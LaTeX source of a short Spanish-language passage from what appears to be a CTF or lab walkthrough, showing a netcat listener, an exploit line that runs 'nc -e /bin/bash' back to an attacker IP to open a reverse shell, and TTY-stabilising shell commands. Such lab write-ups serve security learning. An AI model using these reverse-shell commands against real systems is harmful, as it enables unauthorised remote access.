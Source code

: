 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha con netcat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Con el exploit exploit\_shell.py lanzamos una reverse shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'nc -e /bin/bash 10.10.14.20 443'}\OtherTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

De esta manera, hemos ganado accesso al equipo.

\hypertarget{tratamiento-de-la-tty}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{investigamos-la-maquina}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina}}
\end{document}
